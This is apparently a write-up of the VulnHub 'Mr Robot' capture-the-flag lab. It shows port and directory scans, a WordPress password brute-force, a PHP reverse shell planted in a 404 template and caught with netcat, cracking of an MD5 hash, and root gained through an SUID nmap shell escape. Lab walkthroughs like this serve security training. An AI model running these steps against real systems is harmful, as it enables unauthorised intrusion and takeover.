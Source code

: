Mr Robot

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Content Discovery
[+] Wordpress bruteforce
[+] MD5 - Password Cracking @ Crackstation
[+] Privilege Esclation with nmap --interactive (SUID)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-05 04:24 EST
Nmap scan report for 192.168.56.104
Host is up (0.00081s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 08:00:27:F7:40:77 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.81 ms 192.168.56.104

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Dirb Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# dirb http://192.168.56.104

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Nov  5 04:37:33 2019
URL_BASE: http://192.168.56.104/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.104/ ----
==> DIRECTORY: http://192.168.56.104/0/                                        
==> DIRECTORY: http://192.168.56.104/admin/                                    
+ http://192.168.56.104/atom (CODE:301|SIZE:0)                                 
==> DIRECTORY: http://192.168.56.104/audio/                                    
==> DIRECTORY: http://192.168.56.104/blog/                                     
==> DIRECTORY: http://192.168.56.104/css/                                      
+ http://192.168.56.104/dashboard (CODE:302|SIZE:0)                            
+ http://192.168.56.104/favicon.ico (CODE:200|SIZE:0)                          
==> DIRECTORY: http://192.168.56.104/feed/                                     
==> DIRECTORY: http://192.168.56.104/image/                                    
==> DIRECTORY: http://192.168.56.104/Image/                                    
==> DIRECTORY: http://192.168.56.104/images/                                   
+ http://192.168.56.104/index.html (CODE:200|SIZE:1077)                        
+ http://192.168.56.104/index.php (CODE:301|SIZE:0)                            
+ http://192.168.56.104/intro (CODE:200|SIZE:516314)                           
==> DIRECTORY: http://192.168.56.104/js/                                       
+ http://192.168.56.104/license (CODE:200|SIZE:309)                            
+ http://192.168.56.104/login (CODE:302|SIZE:0)                                
+ http://192.168.56.104/page1 (CODE:301|SIZE:0)                                
^[t                                                                             + http://192.168.56.104/phpmyadmin (CODE:403|SIZE:94)                          
+ http://192.168.56.104/rdf (CODE:301|SIZE:0)                                  
+ http://192.168.56.104/readme (CODE:200|SIZE:64)                              
+ http://192.168.56.104/robots (CODE:200|SIZE:41)                              
+ http://192.168.56.104/robots.txt (CODE:200|SIZE:41) 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Getting content of robots.txt we found a dictionary file

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# curl http://www.example.com/robots.txt
User-agent: *
fsocity.dic
key-1-of-3.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Going to http://www.example.com/wp-login we get the information that the user is elliot.

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/mr.Robot/mr.robot1.png

After brute forcing the password for elliot using dictionary “ fsocity.dic” we get the following credentials:

username : elliot
password : ER28-0652

Logging into Wordpress

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/mr.Robot/mr.robot2.png)

We try to modify a standart 404 error page and add a reverse shell instead of the code for page not found .

After adding the code for the php- reverse-shell we get a reverse shell on the listenting port on kali linux .

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.104] 40889
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 11:59:34 up 35 min,  0 users,  load average: 1.38, 1.57, 1.55
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ id

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Getting password for user robot

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
daemon@linux:/home/robot$ cat pass	
cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Using Crack Station to crack the password

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/mr.Robot/mr.robot3.png)


Getting user robot

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$ cat key	
cat key-2-of-3.txt 
822c73956184f694993bede3eb39f959


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Find SUID

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Privilege escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# whoami
whoami
root

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

